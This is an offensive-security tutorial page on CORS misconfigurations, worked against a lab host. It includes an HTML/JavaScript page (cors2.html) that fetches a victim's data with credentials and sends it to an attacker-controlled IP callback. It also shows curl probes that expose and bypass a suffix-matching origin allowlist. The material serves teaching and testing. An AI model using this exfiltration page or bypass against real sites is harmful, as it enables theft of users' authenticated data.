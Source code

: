 # CORS

## **Trusting Any Origin**

For exploiting a CORS misconfiguration, we must first check if the [`SameSite`](../common-findings/cookie-flags.md#samesite) cookie flag is set (Figure 1).

<figure><img src="../../.gitbook/assets/offsec_cors_2.png" alt=""><figcaption><p>Figure 1: Checking the <code>SessionCookie</code>'s set flags via the browser.</p></figcaption></figure>

The presence of `Access-Control` headers indicates that the application supports CORS (Figure 2).

<figure><img src="../../.gitbook/assets/offsec_cors_3.png" alt=""><figcaption><p>Figure 2: Inspecting a CORS request and response.</p></figcaption></figure>

If we send the same request unauthenticated (without the `Cookie` header), we get a `401 Unauthorized` response (Figure 3). Remember that a browser won't include credentials on a CORS request without the `Access-Control-Allow-Credentials` header. Furthermore, a wildcard value for the `Access-Control-Allow-Origin` header doesn't allow `Access-Control-Allow-Credentials` to be `true`.

<figure><img src="../../.gitbook/assets/offsec_cors_4.png" alt=""><figcaption><p>Figure 3: Sending a request without credentials.</p></figcaption></figure>

When we add the `Origin` header to the CORS request, the `Access-Control-Allow-Credentials` response header is added (Figure 4).

<figure><img src="../../.gitbook/assets/offsec_cors_5.png" alt=""><figcaption><p>Figure 4: Adding the <code>Origin</code> header.</p></figcaption></figure>

We can try to reach the above endpoint from an external domain (Figure 5). Notice that this is a CORS request (`mode: 'cors'`) including credentials (`credentials: 'include'`).

{% code title="cors1.html" %}
```html
<html>
<head>
<script>
var url = "https://cors-sandbox/code";

function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    console.log(data);
  });
}

get_code();
</script>
</head>
<body></body>
</html>
```
{% endcode %}

<figure><img src="../../.gitbook/assets/offsec_cors_6.png" alt=""><figcaption><p>Figure 5: Accessing the page from another domain.</p></figcaption></figure>

Since JavaScript can access the response, we can update our page to send the `code` to an arbitrary domain. The below request creates a CORS page to get the code on behalf of the victim and then sent it to an attacker-control server (Figure 6).

{% code title="cors2.html" overflow="wrap" %}
```html
<html>
<head>
<script>
var url = "https://cors-sandbox/code";

function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    fetch('http://192.168.45.214/callback?' +  encodeURIComponent(JSON.stringify(data)), {
      mode: 'no-cors'
    });
  });
}

get_code();
</script>
</head>
<body></body>
</html>
```
{% endcode %}

<figure><img src="../../.gitbook/assets/offsec_cors_7.png" alt=""><figcaption><p>Figure 6: Successfully exfiltrating the <code>code</code> to an arbitrary domain.</p></figcaption></figure>

## **Improper Domain Allowlist**

The `Access-Control-Allow-Origin` header can only set a single domain. When an application needs to support multiple-origin CORS, it must include server-side logic to respond with the appopriate value via inspecting the `Origin` header to a CORS request. Two common appraches are to check if the `Origin` header includes a preset value or ends with a preset value and then reflecting that header value. In the example below, the server responds with an `Access-Control-Allow-Origin` header.

```bash
# preflight request
$ curl -X "OPTIONS" -i -k https://cors-sandbox/allowlist
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: https://offensive-security.com
content-type: text/html; charset=utf-8
date: Fri, 09 Aug 2024 07:54:20 GMT
server: waitress
content-length: 0
```

Passing a different origin (different protocol and subdomain) via the `Origin` header reflects it back to the response.

{% code overflow="wrap" %}
```bash
# including the Origin header
$ curl -X "OPTIONS" -i -k -H "Origin: http://www.offensive-security.com" https://cors-sandbox/allowlist
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: http://www.offensive-security.com
content-type: text/html; charset=utf-8
date: Fri, 09 Aug 2024 07:56:43 GMT
server: waitress
content-length: 0
```
{% endcode %}

The server does not reflect the origin passed if we change its TLD[^1], but it responds with the default value. The same behavior happens when another domain is passed.

{% code overflow="wrap" %}
```bash
# modifiying the top level domain
$ curl -X "OPTIONS" -i -k -H "Origin: http://www.offensive-security.net" https://cors-sandbox/allowlist
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: https://offensive-security.com
content-type: text/html; charset=utf-8
date: Fri, 09 Aug 2024 08:00:57 GMT
server: waitress
content-length: 0

# passing another domain
$ curl -X "OPTIONS" -i -k -H "Origin: http://malicious.com" https://cors-sandbox/allowlist
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: https://offensive-security.com
content-type: text/html; charset=utf-8
date: Fri, 09 Aug 2024 08:03:35 GMT
server: waitress
content-length: 0
```
{% endcode %}

Based on this information, we can infer that the server is allowing domains that end with `offensive-security.com`, perhaps to allow various subdomains. However, it is not checking for a leading period and this allow us to prepend something to the domain name and bypass CORS.

{% code overflow="wrap" %}
```bash
$ curl -X "OPTIONS" -i -k -H "Origin: http://www.maliciousoffensive-security.com" https://cors-sandbox/allowlist
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: http://www.maliciousoffensive-security.com
content-type: text/html; charset=utf-8
date: Fri, 09 Aug 2024 08:03:21 GMT
server: waitress
content-length: 0
```
{% endcode %}

[^1]: Top Level Domain
